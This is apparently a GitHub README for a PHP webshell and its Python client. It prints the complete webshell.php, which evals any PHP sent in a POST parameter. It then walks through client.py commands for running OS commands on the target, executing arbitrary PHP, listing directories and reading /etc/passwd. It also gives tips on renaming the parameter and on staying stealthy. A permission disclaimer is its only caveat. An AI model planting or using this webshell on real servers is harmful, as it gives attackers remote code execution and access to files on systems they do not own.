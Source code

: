 # PHP Webshell
#### Disclaimers (before we begin)
1. I am not responsible for anything you do with this. Please only use this if you were granted permission by your targets owner!
2. The webshell.php might not work great on windows machines, simply because I haven't tested it. Once I do I will update the code :)

## Let's Begin!
So as you see there are 2 parts to this webshell:
1. webshell.php - The webshell that you upload
2. client.py - The python3 utility you use to interact with webshell.php after it's been uploaded

If you look at `webshell.php` you'll notice it's very simple:
```php
<?php
	if(isset($_POST['payload']))
	{
		eval($_POST['payload']);
	}
?>
```
All it does is eval the php code given to it via a POST request.  
Using this kind of shell is a bit annoying, which is why the `client.py` was created.  
The client side takes care of converting your commands to php code and passing them to the webshell.  
It also has other functions that allow you to interact with the target via the webshell that don't require executing commands on the system  
(opening new processes and executing commands via a webshell isn't very stealthy).  
## Usage
```
python3 client.py --help
```
##### Let's go through some examples  
Executing commands on the remote os:
```sh
# execute an os command via the "system()" php function
python3 client.py -u http://example.com/webshell.php -t exec -p "ls"

# specify php function to use when executing a command
# supported php functions are: system (default), passthru, shell_exec, exec, backticks
python3 client.py -u http://example.com/webshell.php -t exec -p "ls" -e passthru
```
Passing your own php code to be executed:
```sh
# adding the -v (--verify) flag, will show you details of the request that you are about to send to the webshell.
# if you are passing a complex php code, it might be worth validating it before sending
# (-v is available with all types, not only 'eval')
python3 client.py -u http://example.com/webshell.php -t eval -p 'echo("test")' -v
```
Get current working directory:
```sh
python3 client.py -u http://example.com/webshell.php -t pwd
```
List files in a given path (like ls):
```sh
# if the given path is not a directory on the target machine, the webshell will tell you.
# this function also lists hidden files and directories
python3 client.py -u http://example.com/webshell.php -t dir -p "/home/user/"
```
Read file contents:
```sh
# you can change the name of the parameter that the webshell uses ("payload") before uploading it,
# to whatever you want ("cmd" for example), and then use --post-param to specify the parameter.
# you can also change the `DEFAULT_POST_PARAM` parameter in `client.py` if you don't want to pass it as an argument everytime
python3 client.py -u http://example.com/webshell.php -t cat -p "/etc/passwd" --post-param "cmd"
```
## Future Plans
I want to add an upload/download file feature to the webshell, might get to that later  
Enjoy!
